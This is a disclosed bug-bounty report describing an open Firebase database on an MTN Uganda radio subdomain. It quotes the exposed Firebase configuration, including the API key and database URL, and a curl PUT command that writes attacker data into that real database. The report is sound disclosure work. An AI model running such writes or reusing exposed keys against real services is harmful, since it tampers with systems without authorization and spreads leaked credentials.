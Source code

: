 # Firebase Database Takeover in https://pulseradio.mtn.co.ug/

## Report Details
- **Report ID**: 1447751
- **URL**: https://hackerone.com/reports/1447751
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-01-12T10:02:04.917Z
- **Disclosed**: 2022-12-01T10:52:59.962Z

## Reporter
- **Username**: shuvam321
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
## Summary:
During my test , in one of the subdomain of mtn.co.ug I found firebase configuration disclosed in the source code along with apiKey and database URL . 

Exploiting this vulnerability attacker is able to upload malicious data in the firebase account of pulseradio.mtn.co.ug and see database over there .

## Steps To Reproduce:

POC :  https://mtn-pulse-uganda.firebaseio.com/poc.json

1. Go to URL below and view the source code of website .

view-source:https://pulseradio.mtn.co.ug/wp-content/themes/mtn-pulse-reskin/zero-rate/firebase-config.js

There you will see following sensitive data .

$(document).ready(function() {
			// Your web app's Firebase configuration
			var firebaseConfig = {
				apiKey: "AIzaSyCRrABG3_Sc7xHar70hFyjHjEOJ071rbJ4",
				authDomain: "mtn-pulse-uganda.firebaseapp.com",
				databaseURL: "https://mtn-pulse-uganda.firebaseio.com",
				projectId: "mtn-pulse-uganda",
				storageBucket: "mtn-pulse-uganda.appspot.com",
				messagingSenderId: "242450689592",
				appId: "1:242450689592:web:bdd1173378d94d733800cd",
				measurementId: "G-KHPT64LJ5L"
			};


2. Now lets upload some data in firebase database  . Send the following curl request . Your data will be uploaded to firebase .


 curl "https://mtn-pulse-uganda.firebaseio.com/poc1.json" -XPUT -d '{"attacker":"maliciousdata"}'

3. Your data will be uploaded to https://mtn-pulse-uganda.firebaseio.com/poc1.json



References:
There are guidelines available by Firebase to resolve the insecurities and misconfiguration, please follow this link:
https://firebase.google.com/docs/database/security/resolve-insecurities

## Impact

This is quite serious because by using this database attacker can use this for malicious purposes and also an attacker can track this database if mtn uses it for future perspective and at that time it will be much easier for the attacker to steal the data from this repository and later it will harm the reputation of the mtn.co.ug .

So please immediately change the rule of the database to private so that nobody can able to access it outside.

## Attachments
- Screenshot_from_2022-01-12_04-56-44.png
- vokoscreenNG-2022-01-12_04-55-42.mkv
